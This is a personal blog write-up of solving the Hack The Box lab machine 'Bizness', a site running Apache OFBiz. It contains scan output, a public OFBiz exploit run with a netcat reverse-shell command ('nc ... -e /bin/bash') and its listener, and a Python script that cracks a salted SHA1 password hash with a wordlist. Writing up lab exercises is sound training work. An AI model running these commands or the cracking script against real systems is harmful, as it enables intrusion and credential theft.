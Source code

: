 ```yaml
---
tagline: bizness
title: Bizness - My First HTB machine
description: My first HTB Machine and how I solved it
banner: /blog/biznessbanner.jpeg/
banner_alt: Banner of HTB
date: '2024-02-11'
---
```


## Starting up 🚀

I started by installing my ovpn files and running ```sudo openvpn /Users/vipin/Downloads/lab_qvipin.ovpn```. From there you should be ready to start your machine.

## Scanning for ports

- The first step typically for machines is running a **nmap** scan.

```bash:Terminal

❯ sudo nmap -sV 10.10.11.252
Password:
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-04 10:14 EST
Nmap scan report for 10.10.11.252
Host is up (0.054s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp  open  http     nginx 1.18.0
443/tcp open  ssl/http nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.64 seconds
```

- With this port scan we now know that 22, 80, & 443 is open.

## Accessing the website

- Entering 10.10.11.252 into our browser will give us a *ERR_CONNECTION_TIMED_OUT* error so to fix this running ```echo "TARGET_IP domain.htb" | sudo tee -a /etc/hosts``` and replacing the **TARGET_IP** with our IP and **domain.htb** with our domain allows us to access the website.

## Finding Vulnerabilities

- Upon accessing the website we see a normal website.

![Image showing the main page of bizness.htb](/blog/biznesspics/biznesspage1.png 'Fig.1')

- Towards the bottom we see the website is made with **Apache OFBiz**

![Image showing apache ofbiz](/blog/biznesspics/ApacheOFBIZ1.png 'Fig.2')

- Searching for vulnerabilities associated with **Apache OFBiz** we find [this Github repo](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass).

## Directory Busting

- To look for some directories in the site, I will be using Dirsearch

```bash:Terminal
❯ dirsearch -u https://bizness.htb/ --exclude-status 404

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11460

Output File: /Users/vipin/reports/https_bizness.htb/__24-02-09_23-38-26.txt

Target: https://bizness.htb/

[23:38:26] Starting:
[23:38:30] 400 -  795B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[23:38:31] 400 -  795B  - /a%5c.aspx
[23:38:31] 302 -    0B  - /accounting  ->  https://bizness.htb/accounting/
[23:38:42] 302 -    0B  - /catalog  ->  https://bizness.htb/catalog/
[23:38:43] 302 -    0B  - /common  ->  https://bizness.htb/common/
[23:38:44] 302 -    0B  - /content  ->  https://bizness.htb/content/
[23:38:44] 302 -    0B  - /content/  ->  https://bizness.htb/content/control/main
[23:38:44] 302 -    0B  - /content/debug.log  ->  https://bizness.htb/content/control/main
[23:38:44] 200 -   34KB - /control/
[23:38:44] 200 -   34KB - /control
[23:38:44] 200 -   11KB - /control/login
[23:38:46] 302 -    0B  - /error  ->  https://bizness.htb/error/
[23:38:46] 302 -    0B  - /example  ->  https://bizness.htb/example/
[23:38:48] 302 -    0B  - /images  ->  https://bizness.htb/images/
[23:38:49] 302 -    0B  - /index.jsp  ->  https://bizness.htb/control/main
[23:38:59] 200 -   21B  - /solr/admin/
[23:38:59] 200 -   21B  - /solr/admin/file/?file=solrconfig.xml
[23:38:59] 302 -    0B  - /solr/  ->  https://bizness.htb/solr/control/checkLogin/

Task Completed
```

## Getting the User flag

- Looking inside accounting, we find a login page, but that seems to not matter right now.

![Image showing the login page of bizness.htb](/blog/biznesspics/loginbizness1.png 'Fig.2')

- Let's use that [POS repo](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) we found in the beginning..

```bash:Terminal 
└─$ python3 exploit.py --url https://bizness.htb --cmd "nc 10.10.14.35 6969 -e /bin/bash"
[+] Generating payload...
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.


### On another tab I am listening on port 6969

└─$ nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.11.252] 59388

``` 

- And now we have the user flag!

![Image showing the user flag](/blog/biznesspics/userflag1.png 'Fig.3')

## Getting the Root flag

- This is the most difficult part as we need to look for the Hash with the Salt, and this single handedly took almost an hour for this.

- I found the password in *c54d0.dat* 

![Image showing the password](/blog/biznesspics/rootpassword1.png 'Fig.4')

- Using the Python script below, I cracked the password

```python:Notepad

import hashlib
import base64
import os
from tqdm import tqdm

class PasswordEncryptor:
    def __init__(self, hash_type="SHA", pbkdf2_iterations=10000):
       
        self.hash_type = hash_type
        self.pbkdf2_iterations = pbkdf2_iterations

    def crypt_bytes(self, salt, value):

        if not salt:
            salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')
        hash_obj = hashlib.new(self.hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        result = f"${self.hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"
        return result

    def get_crypted_bytes(self, salt, value):
      
        try:
            hash_obj = hashlib.new(self.hash_type)
            hash_obj.update(salt.encode('utf-8'))
            hash_obj.update(value)
            hashed_bytes = hash_obj.digest()
            return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')
        except hashlib.NoSuchAlgorithmException as e:
            raise Exception(f"Error while computing hash of type {self.hash_type}: {e}")

hash_type = "SHA1"
salt = "d"
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
wordlist = '/Users/vipin/tech/CTFs/wordlists/rockyou.txt'

encryptor = PasswordEncryptor(hash_type)

total_lines = sum(1 for _ in open(wordlist, 'r', encoding='latin-1'))

with open(wordlist, 'r', encoding='latin-1') as password_list:
    for password in tqdm(password_list, total=total_lines, desc="Processing"):
        value = password.strip()
        
        hashed_password = encryptor.crypt_bytes(salt, value.encode('utf-8'))
        
        if hashed_password == search:
            print(f'Found Password:{value}, hash:{hashed_password}')
            break  

```

![Image showing the cracked password](/blog/biznesspics/crackedpassword1.png 'Fig.5')

- And Voila!!!

![Image showing that i pwned it](/blog/biznesspics/biznesspwned.png 'Fig.6')